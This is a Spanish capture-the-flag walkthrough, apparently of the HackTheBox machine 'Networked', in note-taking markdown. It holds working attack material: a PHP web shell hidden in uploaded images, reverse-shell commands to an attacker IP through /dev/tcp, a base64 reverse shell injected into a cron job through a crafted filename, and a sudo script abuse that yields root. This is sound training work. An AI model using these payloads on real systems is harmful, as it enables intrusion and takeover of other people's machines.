


# Nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.233.119 -oN escaner
```



## escaneo con script nmap 
```bash
nmap -p22,80 -sCV 10.129.233.119 -oN targeted
```



![[Pasted image 20250619154118.png]]


# Puerto 80

![[Pasted image 20250619154205.png]]

>Encontramos  un mensaje que no aporta mucho 

## Gobuster

```bash
gobuster dir -u 10.129.233.150 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 40
```

![[Pasted image 20250619154402.png]]

```bash
/.hta                 (Status: 403) [Size: 206]
/.htaccess            (Status: 403) [Size: 211]
/.htaccess.html       (Status: 403) [Size: 216]
/.hta.html            (Status: 403) [Size: 211]
/.hta.txt             (Status: 403) [Size: 210]
/.htaccess.txt        (Status: 403) [Size: 215]
/.htpasswd.php        (Status: 403) [Size: 215]
/.htpasswd.html       (Status: 403) [Size: 216]
/.htpasswd            (Status: 403) [Size: 211]
/.htaccess.php        (Status: 403) [Size: 215]
/.htpasswd.txt        (Status: 403) [Size: 215]
/.html                (Status: 403) [Size: 207]
/.hta.php             (Status: 403) [Size: 210]
/backup               (Status: 301) [Size: 237] [--> http://10.129.233.150/backup/]
/cgi-bin/.html        (Status: 403) [Size: 215]
/cgi-bin/             (Status: 403) [Size: 210]
/index.php            (Status: 200) [Size: 229]
/index.php            (Status: 200) [Size: 229]
/lib.php              (Status: 200) [Size: 0]
/photos.php           (Status: 200) [Size: 1629]
/upload.php           (Status: 200) [Size: 169]
/uploads              (Status: 301) [Size: 238] [--> http://10.129.233.150/uploads/]
```

directorios de interes:
```bash

>/backup  encontramos un archivo de descarga de los php lib,upload,photos

>/upload.php donde podemos subir imagenes de size <=60KB

>/photos.php donde podemos ver las fotos que hemos subido con el nuevo nombre adjudicado por sistema 

>/uploads/<nombre de la foto subida cambiado por sistema> donde podremos hacer inyecciones de comandos

```

## /backup

![[Pasted image 20250619154511.png]]

>Descargamos el archivo backup.tar y lo descomprimimos

```bash
7z x backup.tar
```

![[Pasted image 20250619154720.png]]

### index.php
![[Pasted image 20250619154841.png]]

### lib.php

![[Pasted image 20250619154958.png]]
### photos.php

![[Pasted image 20250619155045.png]]
![[Pasted image 20250619155106.png]]

![[Pasted image 20250619155252.png]]

### upload.php

![[Pasted image 20250619155316.png]]
![[Pasted image 20250619155334.png]]

![[Pasted image 20250619155419.png]]

## Pruebas de uploads archivos

>Probamos a subir una imagen de tamaño menor a 60KB 


![[Pasted image 20250619155711.png]]

![[Pasted image 20250619155826.png]]

![[Pasted image 20250619155850.png]]

>Efectivamente la foto se subió correctamente, comprobamos que esta en /photos.php

![[Pasted image 20250619155954.png]]

>Comprobamos que la foto esta en /photos.php y que se le ha asignado el nombre 10_10_14_49.jpeg que es nuestra ip cambiando 
>" . " por " _ " 
>

## Inyección de código en fotografía

### Creamos archivo php con shell

```php
php

<?php system($_GET['cmd']); ?>

```

![[Pasted image 20250619160258.png]]

### inyectamos la shell en la imagen

```bash
cat shell.php >> camel1.jpeg
```

![[Pasted image 20250619160504.png]]

>Cambiamos el nombre de la foto para que tenga el .php

```bash
mv camel1.jpeg camel1.php.jpeg
```

![[Pasted image 20250619160533.png]]

### Subimos la foto a la web

>Igual que antes vamos a /upload.php subimos la foto y comprobamos que esta en /photos.php

![[Pasted image 20250619160709.png]]

### Tratamos de ejecutar comandos por GET

>Vamos a /uploads/10_10_14_49.php.jpeg

y tratamos de inyectar código

```bash
/uploads/10_10_14_49.php.jpeg?cmd=id
```

![[Pasted image 20250619161031.png]]

>Comprobamos que si funciona 

#### Forma Opcional de Inyección de código en upload

##### Creamos archivo php con shell

```php
php

<?php system($_GET['cmd']); ?>

```

![[Pasted image 20250619160258.png]]


##### creamos un archivo .php.png que contenga la cadena 89 50 4E 47 0D 0A 1A 0A

89 50 4E 47 0D 0A 1A 0A - esta cadena es la primera de cualquier imagen png y la identifica como tal

```bash
echo '89 50 4E 0D 0A 1A 0A' |xxd -p -r > nombre_archivo.php.png
```

![[Pasted image 20250619161331.png]]


##### inyectamos el php de antes en el archivo

```bash
cat shell.php >> colada_shell.php.png
```

![[Pasted image 20250619161807.png]]

##### subimos el archivo en /upload.php

![[Pasted image 20250619161533.png]]

##### verificamos que el archivo este en 10.129.233.150/photos.php y vemos el nombre asignado por sistema

> el nombre es nuestra ip pero en vez de puntos con guion bajo 10_10_14_49.php.png

![[Pasted image 20250619161624.png]]


##### vamos a 10.129.233.150/uploads/10_10_14_49.php.png y tratamos de inyectar comandos

```html
10.129.233.150/uploads/10_10_14_49.php.png?cmd=id
```

![[Pasted image 20250619161912.png]]

>De esta manera nos ahorramos ver todo el texto de la imagen y vemos directamente la respuesta de los comandos


### Mandamos una shell a nuestra IP

Nos ponemos en escucha por el puerto 443 

![[Pasted image 20250619162146.png]]

Desde la web mandamos la shell

```html
10.129.233.150/uploads/10_10_14_49.php.png?cmd=bash -c "bash -i %26> /dev/tcp/10.10.14.49/443 0>%261"
```

![[Pasted image 20250619162304.png]]

#### una vez recibimos la shell la tratamos con python 
![[Pasted image 20250619162509.png]]
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl +z

![[Pasted image 20250619162653.png]]


>ahora hay que tratar de llegar al usuario guly 

>leemos los archivos del directorio guly donde vemos que se ejecuta un cron y que no sanitiza la informacion 

![[Pasted image 20250619162916.png]]


#### realizamos un script de r.shell codificado en base64

>vamos al directorio /var/www/html/uploads

>Realizamos la r.shell en base64

```bash
echo -n 'bash -c "bash -i &> /dev/tcp/10.10.14.49/4444 0>&1"' |base64
```

![[Pasted image 20250619163210.png]]

```bash
YmFzaCAtYyAiYmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC40OS80NDQ0IDA+JjEi
```
![[Pasted image 20250619163224.png]]


#### utilizamos touch para que se ejecute el cron 

>Nos ponemos en escucha por el puerto que hayamos elegido 

![[Pasted image 20250619163432.png]]

```bash
touch -- ';echo YmFzaCAtYyAiYmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC40OS80NDQ0IDA+JjEi |base64 -d|bash'
```

>en nuestra terminal en escucha por el puerto 4444 deberíamos recibir una shell como guly (el cron se ejecuta cada 3 minutos igual tenemos que esperar un poco)

#### tratamos la shell con python
![[Pasted image 20250619163935.png]]

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl +z

![[Pasted image 20250619162653.png]]


> vemos "id" para saber los grupos en los que estamos miramos "sudo -l" para ver si tenemos acceso a algun binario como root

![[Pasted image 20250619164133.png]]

>descubrimos con "sudo -l" un programa .sh llamado "changenames.sh" que podemos ejecutar como root sin pass

#### leemos lo que hay en el archivo /usr/local/sbin/changename.sh
![[Pasted image 20250619164258.png]]

#### ejecutamos el programa con sudo 

```bash
sudo /usr/local/sbin/changename.sh
```

21 rellenamos los campos  con cualquier palabra pero en NAME pondremos a demas /bin/bash

```bash
interface NAME:
cualquiercosa /bin/bash
interface PROXY_METHOD:
cualquiercosa
interface BROWSER_ONLY:
cualquiercosa
interface BOOTPROTO:
cualquiercosa 
```

![[Pasted image 20250619164400.png]]

>pulsamos enter y tenemos shell como root

![[Pasted image 20250619164445.png]]

```bash
[root@networked network-scripts]# whoami
root
```
